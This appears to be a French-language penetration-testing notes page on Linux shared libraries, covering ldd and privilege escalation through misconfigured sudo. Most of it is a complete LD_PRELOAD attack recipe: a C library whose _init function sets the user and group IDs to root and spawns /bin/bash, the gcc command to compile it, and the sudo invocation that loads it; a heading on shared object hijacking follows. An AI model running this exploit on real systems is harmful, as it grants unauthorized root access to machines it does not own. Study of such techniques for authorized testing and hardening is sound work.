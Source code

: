 
2 types de lib:
- static libraries (.a)
- dynamically linked shared object libraries (.so) -> equivalent aux dll windows...


Afficher les dll (.so) appelées par un binaire

```shell
ldd /bin/ls
```


## LD_PRELOAD (Sudo)

> [!TIP]
> Permet de charger une dll avant d'executer un binaire

1. Identifier (env_keep+=LD_PRELOAD) avec le sudo

```bash
sudo -l
```

2. Créer une librairie partagée en c
lib.c
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

3. Compiler la lib

```
gcc -fPIC -shared -o lib.so lib.c -nostartfiles
```

4. Exécuter un binaire en chargeant la lib malveillante (préciser absolute path)

```
sudo LD_PRELOAD=/tmp/lib.so <binaire>
```


## Shared Object Hijacking (SUID / Sudo)

> [!TIP]
> Tant que la lib malveillante est dans le runpath elle sera executée.

